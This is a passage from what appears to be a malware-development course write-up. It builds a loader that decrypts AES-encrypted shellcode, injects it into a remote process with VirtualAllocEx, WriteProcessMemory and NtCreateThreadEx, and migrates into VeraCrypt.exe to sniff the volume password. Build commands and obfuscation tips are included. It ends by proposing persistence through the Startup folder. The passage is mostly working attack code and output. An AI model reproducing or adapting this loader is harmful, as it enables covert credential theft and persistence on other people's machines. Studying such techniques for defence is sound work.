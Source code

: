 ```c
	AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));

	pRemoteCode = pVirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
	pWriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);
	
	pNtCreateThreadEx(&hThread, GENERIC_ALL, NULL, hProc, (LPTHREAD_START_ROUTINE) pRemoteCode, NULL, NULL, NULL, NULL, NULL, NULL);
	if (hThread != NULL) {
			pWaitForSingleObjectEx(hThread, 500, TRUE);
			pCloseHandle(hThread);
			return 0;
	}
	return -1;
}
```

Some of the strings and APIs like: `kernel32.dll` and `CryptAcquireContextW` were obfuscated using <a href="https://github.com/adamyaxley/Obfuscate" target="_blank">Guaranteed compile-time string literal obfuscation header-only library for C++14, by adamyaxley</a>.

Finally, the shellcode (`payload`) is loaded reflectively (from **VCmigrate**) again, and performs the migration from 32-bit `notpead.exe` to 64-bit `VeraCrypt.exe` and the sniffing of the password.

First convert the `vcmigrate.dll` into shellcode and encrypt it with AES:

```shell
C:\Projects\sektor7\intermediate\08.Project\VCload>C:\Python311\python.exe ..\sRDI\Python\ConvertToShellcode.py -f Go vcmigrate.dll
Creating Shellcode: vcmigrate.bin

C:\Projects\sektor7\intermediate\08.Project\VCload>C:\Python311\python.exe aes.py vcmigrate.bin > out.txt

C:\Projects\sektor7\intermediate\08.Project\VCload>
```

Then, copy the whole file `out.txt` and paste into `vcload.cpp` at the top without any modifications.

Finally, we can run the compile script (`compile.bat`) and get the executable `vcload.exe`:

```shell
C:\Projects\sektor7\intermediate\08.Project\VCload>compile.bat
helpers.cpp
vcload.cpp
Generating Code...

C:\Projects\sektor7\intermediate\08.Project\VCload>
```

In order to see this in action, open the 32-bit `notepad.exe`, run `vcload.exe`, open `VeraCrypt.exe`, mount the encrypted volume and put the password. The file `C:\VeraCrypt\data.txt` has been created with contents: `DATA = P@$$w0rd!`. If the `vcload.exe` was placed in the Startup folder and assuming a 32-bit process was spawned at startup, we would achieve a simple persistence mechanism with pasword sniffing capabilities!
